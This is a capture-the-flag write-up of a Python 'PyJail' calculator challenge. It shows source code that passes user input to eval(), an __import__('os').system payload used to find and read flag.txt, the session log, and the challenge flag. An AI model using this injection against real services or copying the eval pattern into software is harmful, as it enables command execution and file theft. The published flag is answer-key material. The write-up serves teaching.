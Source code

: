 
```python
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```

This is an easy PyJail Challenge let's look at this

- `main()` 
	- Takes input to `inp`
	- executes the `calc()` function on input
- `calc()`
	- There is a try except statement and runs `eval()` on our input

`eval()` is extremely vulnerable because we can run arb code with Python `__builtins__`

so my final payload was...

```python
__import__('os').system('find / -type f -name "flag.txt" 2>/dev/null')

# and #

__import__('os').system('cat /flag.txt')
```

which ended up like

```zsh
❯ nc kashictf.iitbhucybersec.in 57639
           _            _       _
          | |          | |     | |
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|
>> __import__('os').system('find / -type f -name "flag.txt" 2>/dev/null')
/flag.txt
__import__('os').system('find / -type f -name "flag.txt" 2>/dev/null') --> 0
>> __import__('os').system('cat /flag.txt')
KashiCTF{3V4L_41NT_54F3_oeFp3TYm}
__import__('os').system('cat /flag.txt') --> 0
>>
```

Flag: `KashiCTF{3V4L_41NT_54F3_oeFp3TYm}`

